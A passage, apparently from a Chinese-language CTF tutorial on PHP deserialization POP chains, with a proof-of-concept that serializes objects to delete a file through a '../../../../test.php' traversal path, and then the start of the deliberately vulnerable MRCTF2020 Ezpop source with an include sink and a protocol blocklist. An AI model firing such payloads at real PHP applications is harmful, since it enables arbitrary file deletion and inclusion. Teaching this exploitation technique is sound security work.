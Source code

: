 那么POP链的构造就是通过反序列化和echo来触发\_\_tostring()魔术方法，并且此方法中调用Test2中的Delete()方法，造成任意文件删除的危害。

#### 利用POC：

```php
<?php
class Test1{
	protected $obj;
	function __construct(){
		$this->obj = new Test2;
	}
}

class Test2{
    public $cache_file = '../../../../test.php';
}

$evil = new Test1();

echo urlencode(serialize($evil));

?>
```

### 实例解析2：

**[MRCTF2020]Ezpop**

#### 源码：

```php
Welcome to index.php
<?php
//flag is in flag.php
class Modifier {
    protected  $var;
    public function append($value){
        include($value);
    }
    public function __invoke(){
        $this->append($this->var);
    }
}

class Show{
    public $source;
    public $str;
    public function __construct($file='index.php'){
        $this->source = $file;
        echo 'Welcome to '.$this->source."<br>";
    }
    public function __toString(){
        return $this->str->source;
    }

    public function __wakeup(){
        if(preg_match("/gopher|http|file|ftp|https|dict|\.\./i", $this->source)) {
            echo "hacker";
            $this->source = "index.php";
        }
    }
}

class Test{
    public $p;
```